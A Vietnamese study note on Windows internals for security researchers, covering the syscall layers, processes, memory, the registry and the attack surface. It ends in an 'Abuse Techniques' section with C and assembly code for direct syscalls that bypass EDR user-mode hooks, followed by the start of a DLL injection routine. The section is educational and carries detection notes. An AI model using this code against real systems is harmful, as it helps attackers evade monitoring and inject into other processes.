



# Chapter 1: Concepts and Tools (Khái niệm và Công cụ)

---

## 0. Chapter Map

**Nguồn gốc**: Windows Internals 7th Edition, Part 1 — Chapter 1: *Concepts and Tools*

Chapter này là nền tảng cho toàn bộ series. Nếu bạn bỏ qua chapter này hoặc đọc hời hợt, các chapter sau sẽ thiếu context quan trọng.

**Topics từ WI7 Ch.1:**
- Windows versioning và licensing model
- Foundation concepts: process, thread, virtual memory, objects, handles
- Windows API layers (Win32 → Native → Kernel)
- User mode vs Kernel mode
- Key system processes (smss, csrss, lsass, svchost…)
- Objects, handles, security model cơ bản
- Registry
- Unicode trong Windows
- Tool kit: WinDbg, Process Explorer, ProcMon, WinObj…

**Tại sao chapter này quan trọng với researcher:**
Mọi kỹ thuật tấn công/phòng thủ Windows đều build on top của những khái niệm này. Bạn không thể hiểu process injection nếu không hiểu process. Bạn không thể hiểu EDR hook nếu không biết syscall là gì. Đây là ngôn ngữ chung.

---

## 1. Researcher Mindset

Khi nghiên cứu Windows, hãy nghĩ như một **kiến trúc sư hệ thống đang tìm chỗ nứt trong thiết kế**, không phải như người dùng đang học phần mềm.

**Những câu hỏi đúng để tự hỏi:**

> *"Cơ chế này tồn tại để giải quyết vấn đề gì? Nếu tôi abuse nó, tôi được gì? Nếu tôi là defender, tôi nhìn thấy gì?"*

**Tư duy cần xây dựng:**

1. **Mọi abstraction đều có price.** Windows API là abstraction lên trên Native API, vốn là abstraction lên trên syscall. Mỗi lớp che giấu gì đó. Security researcher nhìn thấy những lớp bị che giấu đó.

2. **Trust boundary là rào cản, cũng là attack target.** User/kernel boundary, process boundary, session boundary — đây là nơi kiểm soát security. Đây cũng là nơi attacker muốn vượt qua.

3. **Kernel là trọng tài cuối cùng.** Mọi thứ trong user mode đều có thể bị attacker kiểm soát nếu họ có quyền. Kernel thì khó hơn nhưng không phải không thể.

4. **Tool là kính hiển vi, không phải mục đích.** WinDbg, ProcMon, Process Explorer — đây là cách bạn *quan sát*. Hiểu lý thuyết trước, dùng tool để xác nhận.

5. **Documentation là lớp ngoài cùng.** MSDN nói `CreateProcess` làm X. Thực tế nó gọi `NtCreateUserProcess` làm Y, Z, W trước khi làm X. Researcher hiểu Y, Z, W.

---

## 2. Big Picture

### Mental model: Windows như một tòa nhà nhiều tầng



**Bức tranh đơn giản nhất:**
- Ứng dụng của bạn chạy ở **Ring 3** (user mode) — bị hạn chế.
- Windows kernel chạy ở **Ring 0** (kernel mode) — toàn quyền với phần cứng.
- Cầu nối duy nhất hợp lệ: **System Call (syscall)** — một cổng có kiểm soát.
- Mỗi lần app gọi `ReadFile()`, cuối cùng một syscall xảy ra để nhờ kernel làm việc thật.

**Tại sao cấu trúc này tồn tại:**
CPU hardware (Intel/AMD) enforce ring separation. Code chạy trong Ring 3 không thể trực tiếp đọc RAM vật lý, không thể access hardware, không thể viết vào kernel memory. Muốn làm những việc đó, phải xin kernel qua syscall — và kernel sẽ kiểm tra quyền trước khi làm.

---

## 3. Key Terms

| Term | Giải thích tiếng Việt | Tại sao quan trọng |
|---|---|---|
| **Process** | Container độc lập chứa virtual address space, handle table, threads, và security context | Unit of isolation — malware thường sống trong một process |
| **Thread** | Đơn vị thực thi thực sự — thread mới được lên lịch CPU | Mọi code thực thi đều chạy trong một thread |
| **Virtual Memory** | Mỗi process thấy một không gian địa chỉ riêng, OS map sang RAM thật | Cơ sở của isolation và injection techniques |
| **Kernel Object** | Tài nguyên được quản lý bởi kernel (file, process, thread, mutex…) | Mọi resource đều là object, có security descriptor |
| **Handle** | Index trong bảng handle của process, trỏ đến một kernel object | Để dùng object phải có handle; handle leak = security issue |
| **Access Token** | Struct chứa danh tính bảo mật của process/thread | Ai bạn là, bạn có quyền gì — basis của access control |
| **System Call (Syscall)** | Cơ chế chính thức để vượt qua user→kernel boundary | Điểm EDR đặt kernel callback; cách code gọi syscall quyết định loại telemetry nào được kích hoạt |
| **Native API** | NtXxx/ZwXxx — API thấp nhất ở user mode (ntdll.dll) | Ít được observe hơn Win32 trong một số cấu hình EDR; quan trọng cho threat modeling và detection engineering |
| **Win32 API** | API public của Windows (kernel32, user32, advapi32…) | Lớp được document, hay bị monitor bởi EDR |
| **EPROCESS** | Kernel struct đại diện cho một process | WinDbg dùng để xem toàn bộ process state |
| **ETHREAD** | Kernel struct đại diện cho một thread | Thread injection target |
| **PEB** | Process Environment Block — user-mode struct của process | Chứa module list, command line, env vars; hay bị tamper |
| **TEB** | Thread Environment Block — user-mode struct của thread | Stack base/limit, exception chain, TLS |
| **IRQL** | Interrupt Request Level — priority khi chạy trong kernel | Driver code phải biết IRQL để tránh crash |
| **Object Manager** | Kernel component quản lý mọi kernel object | Namespace `\Device\`, `\BaseNamedObjects\` — attack surface |
| **Security Descriptor** | Cấu trúc mô tả ai được phép làm gì với object | DACL/SACL — misconfiguration = privilege escalation |
| **Registry** | Database cấu hình phân cấp của Windows | Chứa startup/autorun configuration locations — trọng điểm của forensics, administration, và abuse analysis |
| **DLL** | Dynamic Link Library — shared code library | Injection vector, hijacking target |
| **Session** | Isolation container cho user session | Session 0 isolation ngăn service↔desktop interaction |

---

## 4. Core Internals

### 4.1 Windows API Layers — Từ trên xuống dưới

Khi bạn gọi `ReadFile()` trong code C, thực ra có nhiều lớp xảy ra:

```
Application Code
    ↓ gọi
kernel32.dll!ReadFile()         [Win32 API — documented]
    ↓ forward sang
kernelbase.dll!ReadFile()       [thực sự implement Win32]
    ↓ gọi
ntdll.dll!NtReadFile()          [Native API — ít documented hơn]
    ↓ thực hiện
SYSCALL instruction              [vượt qua user/kernel boundary]
    ↓ vào kernel
ntoskrnl.exe!NtReadFile()       [kernel implementation thực sự]
    ↓ gọi
I/O Manager → Driver Stack → Hardware
```

**Tại sao researcher cần hiểu layering này:**
- EDR đặt sensor ở lớp **ntdll.dll** (user-mode instrumentation) hoặc trong **kernel** (kernel callbacks) — hai cơ chế này có visibility khác nhau đáng kể.
- Code dùng **direct syscall** — gọi SYSCALL mà không qua ntdll stubs — nằm ngoài tầm quan sát của user-mode instrumentation. Đây là lý do kernel callbacks là telemetry source đáng tin cậy hơn về mặt kiến trúc.
- Code dùng **Native API trực tiếp** ít xuất hiện trong Win32-level monitoring và cần được xét kỹ trong threat model và detection design.

**Win32 subsystem không phải là Windows kernel.** Win32 là một *subsystem* chạy bên trên kernel. POSIX subsystem (cũ), WSL (mới) — đây cũng là các subsystem khác. Kernel không quan tâm bạn dùng subsystem nào.

### 4.2 System Call Mechanism

System call (syscall) là cơ chế CPU-level để code user mode yêu cầu kernel thực hiện tác vụ.

**Trên x64 Windows:**
```
1. ntdll.dll đặt syscall number vào register EAX
2. Thực thi lệnh SYSCALL
3. CPU: lưu trạng thái, chuyển sang Ring 0, nhảy đến KiSystemCall64
4. Kernel: lấy syscall number, lookup trong SSDT, gọi handler
5. Handler thực thi với đầy đủ kernel privilege
6. Kernel: trả kết quả về EAX/RAX, thực thi SYSRET
7. CPU: chuyển về Ring 3, code tiếp tục sau SYSCALL
```

**SSDT (System Service Descriptor Table):**
Bảng ánh xạ syscall number → kernel function pointer. Ví dụ:
- `NtReadFile` = syscall number 6 (có thể thay đổi theo Windows build!)
- `NtCreateProcess` = syscall number 0x4D (Windows 10 20H2)

> **Quan trọng:** Syscall number **không cố định giữa các Windows build**. Đây là lý do các chương trình dùng ntdll.dll thay vì hard-code số.

**Tại sao researcher và detection engineer cần hiểu:**
- Một số EDR instrumentation dùng kỹ thuật **patch ntdll.dll** trong memory của process (IAT hook hoặc inline hook) để quan sát API calls — đây là user-mode instrumentation.
- Code gọi SYSCALL trực tiếp (không qua ntdll stubs) thay đổi visibility của lớp instrumentation này. Đây là giới hạn thiết kế của user-mode-only sensor — kernel callbacks như `PsSetCreateProcessNotifyRoutineEx` và `ObRegisterCallbacks` không bị ảnh hưởng bởi điều này.
- Kỹ thuật **direct syscall** / **indirect syscall** quan trọng cho cả EDR architecture design lẫn threat modeling. Vì syscall numbers thay đổi theo Windows build, việc sử dụng nó cần được maintained theo version.

### 4.3 Processes — Không chỉ là "chương trình đang chạy"

Process là một **container isolation**, không chỉ là chương trình. Một process bao gồm:

| Thành phần | Mô tả |
|---|---|
| Virtual Address Space | Không gian địa chỉ ảo riêng — process khác không thể đọc trực tiếp |
| Handle Table | Bảng các kernel objects process đang dùng |
| Access Token | Danh tính bảo mật — ai đang chạy process này |
| Threads | Ít nhất 1 thread; process không thực thi, thread mới thực thi |
| PEB | User-mode metadata: command line, loaded DLLs, heap info |
| EPROCESS | Kernel-mode struct: full process state |

**Process creation flow (simplified):**
```
CreateProcess() 
  → NtCreateUserProcess()
    → Create EPROCESS + ETHREAD (initial thread)
    → Map executable image vào memory
    → Load ntdll.dll
    → Set up PEB
    → Start initial thread
    → Initial thread → load DLLs → call DllMain → call WinMain
```

**Kernel view qua EPROCESS:**
```
EPROCESS {
    KPROCESS Pcb;              // scheduling info
    VOID* UniqueProcessId;     // PID
    EPROCESS* ActiveProcessLinks; // linked list of all processes
    TOKEN* Token;              // security token
    HANDLE_TABLE* ObjectTable; // handle table
    PEB* Peb;                  // pointer to PEB in user space
    UNICODE_STRING ImageFileName; // process name (15 chars max!)
    ...
}
```

> **Researcher note:** `ImageFileName` trong EPROCESS chỉ lưu 15 ký tự. Malware hay dùng tên dài để truncate khác với tên thật. Để lấy full path, xem `SeAuditProcessCreationInfo` hoặc dùng `QueryFullProcessImageName`.

### 4.4 Threads

Thread là **đơn vị thực thi thực sự**. CPU chỉ biết thread, không biết process. Khi Windows schedule, nó chọn thread để chạy trên CPU.

**Mỗi thread có:**
- **Stack riêng** (kernel stack + user stack)
- **Register set riêng** (saved/restored trên context switch)
- **TEB** (Thread Environment Block) ở user mode
- **ETHREAD** ở kernel mode
- Tùy chọn: **Impersonation token** (khác với process token)

**Thread vs Process security:**
- Một thread có thể **impersonate** một user khác (đặt token khác vào thread).
- LSASS, IIS, SQL Server dùng cơ chế này để handle requests từ nhiều user.
- Attacker exploit impersonation để leo thang privilege.

### 4.5 Virtual Memory

**Mỗi process** có một virtual address space **riêng biệt, đầy đủ**. Trên x64:
- User space: `0x0000000000000000` → `0x00007FFFFFFFFFFF` (128 TB)
- Kernel space: `0xFFFF800000000000` → `0xFFFFFFFFFFFFFFFF` (128 TB)
- Kernel space được **map vào mọi process** nhưng chỉ accessible từ Ring 0

**Tại sao virtual memory quan trọng với researcher:**

```
Process A: virtual 0x00401000 → physical RAM 0x1A3F000
Process B: virtual 0x00401000 → physical RAM 0x5B2C000
```

Cùng virtual address, khác vật lý → isolation. Để đọc memory của process khác, phải dùng `ReadProcessMemory()` — đây là kernel-assisted operation có access check.

**Memory regions quan trọng:**
- **MEM_PRIVATE**: bộ nhớ riêng của process
- **MEM_IMAGE**: được map từ PE file (exe/dll)
- **MEM_MAPPED**: mapped file hoặc section object
- Trạng thái: **Committed** (có RAM/pagefile), **Reserved** (địa chỉ giữ chỗ), **Free**

**Page permissions (protection flags):**
- `PAGE_EXECUTE_READ` (RX) — code bình thường
- `PAGE_READWRITE` (RW) — data
- `PAGE_EXECUTE_READWRITE` (RWX) — **suspicious** — shellcode landing zone
- `PAGE_NOACCESS` — guard page, separator

> **Researcher note:** `VirtualAlloc` với `MEM_PRIVATE` + `PAGE_EXECUTE_READWRITE` rồi copy shellcode rồi execute — đây là pattern cơ bản nhất của shellcode injection. EDR luôn monitor pattern này.

### 4.6 Objects và Handles

**Mọi tài nguyên trong Windows đều là kernel object:**
- Process → EPROCESS object
- Thread → ETHREAD object
- File → File object
- Registry key → Key object
- Mutex, Event, Semaphore → Dispatcher objects
- Token → Token object
- Section (shared memory) → Section object

**Handles là cách user mode access kernel objects:**

```
Process Handle Table (per-process):
┌─────────────────────────────────┐
│ Handle │ Object Pointer │ Access │
├────────┼────────────────┼────────┤
│ 0x4    │ → EPROCESS(A)  │ FULL   │
│ 0x8    │ → File(B)      │ READ   │
│ 0xC    │ → Event(C)     │ ALL    │
└─────────────────────────────────┘
```

**Access check xảy ra khi mở handle** (`OpenProcess`, `CreateFile`…), **không phải khi dùng handle**. Sau khi có handle, bạn dùng nó mà không bị check lại (trong cùng session).

**Handle inheritance và duplication:**
- `CreateProcess` có thể inherit handles sang child process
- `DuplicateHandle` có thể copy handle sang process khác (nếu có quyền)
- Đây là basis của một số privilege escalation technique

### 4.7 Registry — Database sống của Windows

Registry là hierarchical key-value database. Được dùng để lưu:
- Cấu hình hệ thống
- Cấu hình application
- User preferences
- Hardware configuration
- Security policy

**Cấu trúc:**
```
HKEY_LOCAL_MACHINE (HKLM)     ← system-wide, cần admin để write
  └─ SYSTEM\CurrentControlSet  ← driver và service config
  └─ SOFTWARE                  ← installed software config
  └─ SECURITY                  ← security database
  └─ SAM                       ← local user accounts (protected)

HKEY_CURRENT_USER (HKCU)      ← per-user, user có thể write
  └─ Software                  ← user-level app config
  └─ Environment               ← user environment variables

HKEY_CLASSES_ROOT (HKCR)      ← COM/file association (merge HKLM+HKCU)
HKEY_USERS (HKU)              ← all user profiles
HKEY_CURRENT_CONFIG (HKCC)    ← current hardware profile
```

**Registry Hives = files vật lý:**
| Hive | File trên disk |
|---|---|
| HKLM\SYSTEM | `C:\Windows\System32\config\SYSTEM` |
| HKLM\SOFTWARE | `C:\Windows\System32\config\SOFTWARE` |
| HKLM\SAM | `C:\Windows\System32\config\SAM` |
| HKCU | `C:\Users\<user>\NTUSER.DAT` |
| HKCU\Software\Classes | `C:\Users\<user>\AppData\Local\Microsoft\Windows\UsrClass.dat` |

> **Forensics note:** Registry hives là artifact cực kỳ quan trọng trong forensics. Ngay cả sau khi malware delete key, transaction log (`*.LOG1`, `*.LOG2`) hoặc Volume Shadow Copy có thể giữ lại dấu vết.

### 4.8 Unicode trong Windows

**Windows sử dụng UTF-16LE internally.** Mọi internal string của Windows kernel là `UNICODE_STRING`:

```c
typedef struct _UNICODE_STRING {
    USHORT Length;         // byte length của string (không tính null)
    USHORT MaximumLength;  // buffer size
    PWSTR  Buffer;         // pointer to UTF-16LE data
} UNICODE_STRING;
```

**Tại sao quan trọng với researcher:**
1. **Path normalization bugs:** Windows có nhiều cách biểu diễn cùng một path. Attacker lợi dụng để bypass path-based security checks.
   - `C:\Windows\System32\cmd.exe`
   - `\\?\C:\Windows\System32\cmd.exe`
   - `\Device\HarddiskVolume3\Windows\System32\cmd.exe`

2. **String comparison bugs:** So sánh `ANSI` với `UNICODE` sai có thể dẫn đến bypass.

3. **Null byte tricks:** UTF-16 null = `\x00\x00`. ANSI null = `\x00`. Một số API bị confused.

---

## 5. Important Windows Components / Structures

### 5.1 Key System Processes

| Process | Path | Vai trò | Đặc điểm bảo mật |
|---|---|---|---|
| `System` (PID 4) | kernel | Kernel threads chạy ở đây | Không có exe image trên disk |
| `smss.exe` | `\Windows\System32\smss.exe` | Session Manager — khởi động sessions | First user-mode process; parent của csrss, winlogon |
| `csrss.exe` | `\Windows\System32\csrss.exe` | Win32 subsystem | Critical process; terminate = BSOD |
| `wininit.exe` | `\Windows\System32\wininit.exe` | Khởi động services, lsass, lsm | Parent của services.exe và lsass.exe |
| `winlogon.exe` | `\Windows\System32\winlogon.exe` | Login screen, session management | Handles SAS (Ctrl+Alt+Del) |
| `services.exe` | `\Windows\System32\services.exe` | Service Control Manager (SCM) | Parent của tất cả svchost.exe |
| `lsass.exe` | `\Windows\System32\lsass.exe` | Authentication, credential storage | **Primary target của credential dumping** |
| `svchost.exe` | `\Windows\System32\svchost.exe` | Host cho Windows services | Nhiều instance — xem `-k` parameter |
| `explorer.exe` | `\Windows\explorer.exe` | Shell, file manager | Parent của user-launched apps |

**Process tree bình thường (Windows 10):**
```
System (PID 4)
└─ smss.exe
   ├─ csrss.exe (Session 0)
   ├─ wininit.exe
   │  ├─ services.exe
   │  │  └─ svchost.exe (nhiều instance)
   │  └─ lsass.exe
   └─ csrss.exe (Session 1)
   └─ winlogon.exe
      └─ userinit.exe
         └─ explorer.exe
            └─ [user applications]
```

> **Researcher note:** **Process tree là indicator rất mạnh.** `cmd.exe` spawned từ `powershell.exe` spawned từ `winword.exe` — đây là dấu hiệu macro execution. EDR đọc process tree để detect chains bất thường.

### 5.2 Key Kernel Components

| Component | Module | Vai trò |
|---|---|---|
| **Executive** | ntoskrnl.exe | Quản lý Process, Memory, I/O, Security, Object |
| **Kernel** | ntoskrnl.exe (kernel layer) | Scheduling, synchronization, exception handling |
| **HAL** | hal.dll | Trừu tượng hóa hardware — CPU, interrupt controller |
| **Win32k** | win32k.sys | GUI, window management trong kernel |
| **Ntdll** | ntdll.dll | Bridge user↔kernel — system call stubs |

### 5.3 Key Data Structures

**EPROCESS (xem một phần):**
```
kd> dt nt!_EPROCESS
   +0x000 Pcb              : _KPROCESS
   +0x2d8 ProcessLock      : _EX_PUSH_LOCK
   +0x2e0 UniqueProcessId  : Ptr64 Void
   +0x2e8 ActiveProcessLinks : _LIST_ENTRY    ← linked list tất cả processes
   +0x440 Token            : _EX_FAST_REF    ← security token
   +0x4b8 Peb              : Ptr64 _PEB
   +0x5a8 ImageFileName    : [15] UChar      ← tên process (15 chars)
```

**PEB (Process Environment Block):**
```
PEB {
    Ldr: PEB_LDR_DATA*;     // danh sách DLL đã load (InLoadOrderModuleList)
    ProcessParameters: RTL_USER_PROCESS_PARAMETERS*;  // command line, env
    OSMajorVersion, OSMinorVersion, OSBuildNumber;
    NtGlobalFlag;           // debug flags — hay bị kiểm tra bởi anti-debug
    HeapSegmentCommit;
    ...
}
```

---

## 6. Trust Boundaries

### 6.1 Ring 0 vs Ring 3 (User/Kernel Boundary)

```
Ring 3 (User Mode):
  - App code, DLLs
  - Có thể đọc/ghi memory trong virtual address space của mình
  - Không thể directly access hardware
  - Không thể đọc kernel memory
  - Lỗi = Access Violation (exception, process crash)

Ring 0 (Kernel Mode):
  - ntoskrnl, hal, drivers
  - Toàn quyền với phần cứng
  - Có thể đọc/ghi mọi RAM (kể cả user space)
  - Lỗi = BSOD (kernel panic)
```

**Crossing boundary:** syscall instruction (và software interrupt int 0x2e trên x86 cũ).

### 6.2 Process Boundary

Processes được isolated bởi virtual memory. Để interact với process khác cần:
1. Mở handle với `OpenProcess()` — kernel check access rights
2. Dùng `ReadProcessMemory()` / `WriteProcessMemory()` — cross-process memory access
3. `CreateRemoteThread()` / `NtCreateThreadEx()` — create thread trong process khác

**Quyền cần thiết:**
- Đọc memory: `PROCESS_VM_READ`
- Ghi memory: `PROCESS_VM_WRITE + PROCESS_VM_OPERATION`
- Tạo thread: `PROCESS_CREATE_THREAD + PROCESS_VM_OPERATION + PROCESS_VM_WRITE`

### 6.3 Integrity Levels (UAC Model)

Windows Vista+ thêm **Mandatory Integrity Control (MIC)**:

| Level | Value | Dùng cho |
|---|---|---|
| Untrusted | 0x0000 | Anonymous, restricted processes |
| Low | 0x1000 | Sandboxed browsers, downloads |
| Medium | 0x2000 | Normal user processes |
| High | 0x3000 | Elevated (admin) processes |
| System | 0x4000 | Services, SYSTEM account |
| Protected | 0x5000 | PPL, Anticheat… |

**Rule:** Process ở integrity level thấp **không thể** write vào object ở level cao hơn (No-Write-Up policy). Nếu muốn, phải elevation qua UAC.

### 6.4 Session Isolation (Session 0 Isolation)

Từ Windows Vista:
- Session 0 = services, system processes (không có interactive desktop)
- Session 1, 2, 3… = user sessions (có GUI)
- Services không thể directly interact với user desktop (popup từ service không hiện)

**Tại sao quan trọng:** Malware chạy trong user session không thể directly communicate với service trong session 0 qua window messages. Phải dùng IPC (named pipe, COM…).

### 6.5 Protected Processes (PPL)

**Protected Process Light (PPL)** là cơ chế Windows bảo vệ một số process khỏi bị tamper, kể cả bởi admin:
- `lsass.exe` có thể chạy như PPL
- EDR/AV processes có thể dùng PPL
- Không thể OpenProcess với debug rights vào PPL process

**PPL bypass = tấn công kernel** (vì enforcement là trong kernel).

---

## 7. Attack Surface Map

### 7.1 APIs

| API Layer | Ví dụ | Bị monitor không? |
|---|---|---|
| Win32 API | `CreateProcess`, `VirtualAlloc`, `WriteProcessMemory` | Thường có (EDR hook) |
| Native API | `NtCreateProcess`, `NtAllocateVirtualMemory` | Thường có (ntdll hook) |
| Direct Syscall | SYSCALL instruction trực tiếp | Khó — cần kernel callback |
| Kernel API | `ZwXxx` từ kernel mode | Có nếu có kernel sensor |

### 7.2 Kernel Objects (Named Objects)

Named objects trong `\BaseNamedObjects\` (session-specific) và `\Global\` — accessible cross-process:
- Mutex: `\BaseNamedObjects\MutexName`
- Event: `\BaseNamedObjects\EventName`
- Section (shared memory): `\BaseNamedObjects\SectionName`
- Semaphore, Waitable Timer

**Attack:** Object squatting — tạo trước object với tên mà victim sẽ tạo, để kiểm soát victim's synchronization.

### 7.3 Registry Attack Surface

```
Startup/autorun configuration locations (quan trọng cho administration, forensics, và abuse analysis):
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
HKLM\SYSTEM\CurrentControlSet\Services\  ← driver và service configuration
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon  ← shell và userinit configuration
HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options  ← debugger attachment configuration
HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\BootExecute  ← boot-time execution configuration
```

### 7.4 Filesystem Attack Surface

```
Writable locations và startup folders (quan trọng cho deployment, forensics, và abuse analysis):
C:\Windows\System32\        ← DLL search order location; write access cần admin
C:\ProgramData\             ← thường writable bởi standard user
C:\Users\<user>\AppData\    ← fully writable by user
Startup folders (autorun configuration):
  C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\
  C:\Users\<user>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\
```

### 7.5 ETW Providers (Attack & Defense)

```
Key ETW providers:
Microsoft-Windows-Kernel-Process      ← process/thread/image events
Microsoft-Windows-Kernel-Registry     ← registry events
Microsoft-Windows-Kernel-File         ← file I/O events
Microsoft-Windows-Threat-Intelligence ← high-fidelity security events (PPL-protected)
Microsoft-Windows-Security-Auditing   ← Security Event Log
Microsoft-Antimalware-Engine          ← AMSI events
```

> **Note:** `Microsoft-Windows-Threat-Intelligence` (ETW-TI) là provider đặc biệt — chỉ accessible bởi PPL processes. EDR dùng để theo dõi process injection. Attacker cố disable nó nhưng phải là kernel-level để làm được.

### 7.6 Services

SCM (services.exe) manage services. Mỗi service có:
- Binary path (có thể là attack target nếu writable)
- Service account (SYSTEM, LocalService, NetworkService, hoặc custom)
- Start type (automatic, manual, disabled)

```
Registry path: HKLM\SYSTEM\CurrentControlSet\Services\<ServiceName>
```

---

## 8. Abuse Techniques — Code Examples

### 8.1 Direct Syscall — Bypass ntdll User-Mode Hooks

**Concept:** Thay vì gọi qua `ntdll.dll` stubs (nơi EDR inline hook), code trực tiếp thực thi `SYSCALL` instruction với syscall number hardcoded hoặc được resolve động từ ntdll.

**Tại sao hiệu quả:** User-mode EDR hook ở lớp ntdll không thấy gì. Kernel callbacks vẫn fire — đây là giới hạn của kỹ thuật này (không bypass kernel-level sensor).

```c
// Direct syscall example — NtAllocateVirtualMemory
// Syscall number thay đổi theo Windows build — cần resolve động hoặc dùng SysWhispers
// Windows 10 22H2 x64: NtAllocateVirtualMemory = 0x18

#include <windows.h>

// Resolve syscall number động từ ntdll (avoid hardcoding)
DWORD GetSyscallNumber(const char* funcName) {
    HMODULE ntdll = GetModuleHandleA("ntdll.dll");
    PBYTE func = (PBYTE)GetProcAddress(ntdll, funcName);
    // Pattern: mov eax, <syscall_num> là bytes 4C 8B D1 B8 XX XX XX XX
    // Tìm opcode B8 (mov eax, imm32) trong 32 bytes đầu
    for (int i = 0; i < 32; i++) {
        if (func[i] == 0xB8) {
            return *(DWORD*)(func + i + 1);
        }
    }
    return 0;
}

// Stub syscall trực tiếp — MASM assembly (dùng trong .asm file với MSVC)
// NtAllocateVirtualMemory PROC
//     mov r10, rcx        ; kernel calling convention requires r10 = rcx
//     mov eax, 18h        ; syscall number — Windows 10 22H2 (verify per build!)
//     syscall
//     ret
// NtAllocateVirtualMemory ENDP

// Usage:
// DWORD sysnum = GetSyscallNumber("NtAllocateVirtualMemory");
// printf("NtAllocateVirtualMemory syscall#: 0x%X\n", sysnum);
```

**SysWhispers3** tự động generate direct syscall stubs cho mọi Windows version, resolve số tại runtime: https://github.com/klezVirus/SysWhispers3

**Hell's Gate / Halo's Gate** là kỹ thuật resolve syscall number bằng cách đọc byte pattern từ ntdll trong memory, ngay cả khi ntdll bị hook (đọc từ disk copy sạch).

**Detection (EDR thấy gì):**
- ntdll inline hook: **KHÔNG thấy** — call không đi qua ntdll stubs
- ETW-TI `KERNEL_THREATINT_TASK_ALLOCVM`: **vẫn fire** — kernel thấy mọi allocation dù từ đâu
- Phân tích binary: pattern `mov r10, rcx / mov eax, <num> / syscall` trong code section không thuộc ntdll = indicator mạnh
- Import table: thiếu NtXxx imports từ ntdll nhưng process vẫn thực hiện privileged ops

---

### 8.2 Classic DLL Injection

**Concept:** Inject DLL vào process khác bằng cách ghi path DLL vào memory của target, rồi tạo remote thread gọi `LoadLibraryA`.

```c
#include <windows.h>
#include <stdio.h>

BOOL InjectDLL(DWORD targetPID, const char* dllPath) {
    SIZE_T dllPathLen = strlen(dllPath) + 1;

    // 1. Mở handle đến target process
    HANDLE hProcess = OpenProcess(
        PROCESS_VM_WRITE | PROCESS_VM_OPERATION | PROCESS_CREATE_THREAD,
        FALSE, targetPID);
    if (!hProcess) { printf("OpenProcess failed: %lu\n", GetLastError()); return FALSE; }

    // 2. Cấp phát memory trong target process cho DLL path
    LPVOID remoteBuffer = VirtualAllocEx(
        hProcess, NULL, dllPathLen,
        MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (!remoteBuffer) { CloseHandle(hProcess); return FALSE; }

    // 3. Ghi DLL path vào target process memory
